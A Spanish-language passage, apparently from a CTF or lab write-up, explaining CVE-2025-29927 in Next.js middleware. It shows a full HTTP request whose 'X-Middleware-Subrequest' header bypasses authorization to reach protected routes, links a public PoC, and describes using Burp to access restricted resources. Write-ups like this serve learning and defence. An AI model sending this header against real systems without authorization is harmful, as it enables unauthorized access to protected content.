 ### Burpsuite

#### CVE-2025-29927 Authorization Bypass in Next.js Middleware

Al saber que el servidor corre `Next.js 15.2.2`, existe un `bypass de la autenticación` en las versiones > 15.0 < 15.2.3 (entre otras) con el que se puede `acceder a rutas protegidas`.

Si añadimos un `Header pesonalizado (X-Middleware-Subrequest)` podemos acceder al contenido restringido.

Un ejemplo de la request HTTP:

```http
GET /dashboard HTTP/1.1
Host: abc.com
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

[CVE-2025-29927](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)
[PoC](https://github.com/MuhammadWaseem29/CVE-2025-29927-POC)

#### Burpsuite - Accediendo a las rutas protegidas

Explotando la vulnerabilidad anterior podemos `acceder` a los `recursos de /docs/content` mencionados anteriormente, para ello se puede utilizar burp.

![Burp Endpoint getting-started request](images/previous_burp_getting_started_request.PNG)
